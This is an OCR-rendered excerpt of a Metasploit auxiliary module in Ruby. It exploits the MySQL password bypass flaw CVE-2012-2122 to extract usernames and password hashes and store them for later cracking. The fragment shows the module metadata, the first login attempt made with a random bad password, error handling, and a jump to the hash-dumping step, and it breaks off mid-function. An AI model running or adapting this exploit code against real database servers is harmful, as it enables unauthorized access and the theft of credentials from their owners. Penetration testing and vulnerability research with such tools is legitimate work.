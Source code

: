 ```ruby
'Description' =&gt; %Q{
This module exploits a password bypass vulnerability in MySQL in order
to extract the usernames and encrypted password hashes from a MySQL server.
These hashes ares stored as loot for later cracking.
},
'Authors' =&gt; [
'TheLightCosine &lt;thelightcosine[at]metasploit.com&gt;', # Original hashdump module
'jcran' # Authentication bypass bruteforce implementation
],
'References' =&gt; [
['CVE', '2012-2122']
],
'DisclosureDate' =&gt; 'Jun 09 2012',
'License' =&gt; MSF_LICENSE
)

deregister_options('PASSWORD')
end

def run_host(ip)

# Keep track of results (successful connections)
results = []

# Username and password placeholders
username = datastore['USERNAME']
password = Rex::Text.rand_text_alpha(rand(8)+1)

# Do an initial check to see if we can log into the server at all
begin
socket = connect(false)
x = ::RbMysql.connect({
:host =&gt; rhost,
:port =&gt; rport,
:user =&gt; username,
:password =&gt; password,
:read_timeout =&gt; 300,
:write_timeout =&gt; 300,
:socket =&gt; socket
})
x.connect
results &lt;&lt; x

print_good &quot;#{rhost}:#{rport} The server accepted our first login as #{username} with a bad password&quot;

rescue RbMysql::HostNotPrivileged
print_error &quot;#{rhost}:#{rport} Unable to login from this host due to policy (may still be vulnerable)&quot;
return
rescue RbMysql::AccessDeniedError
print_good &quot;#{rhost}:#{rport} The server allows logins, proceeding with bypass test&quot;
rescue ::Interrupt
raise $!
rescue ::Exception =&gt; e
print_error &quot;#{rhost}:#{rport} Error: #{e}&quot;
return
end

# Short circuit if we already won
if results.length &gt; 0
@mysql_handle = results.first
return dump_hashes
```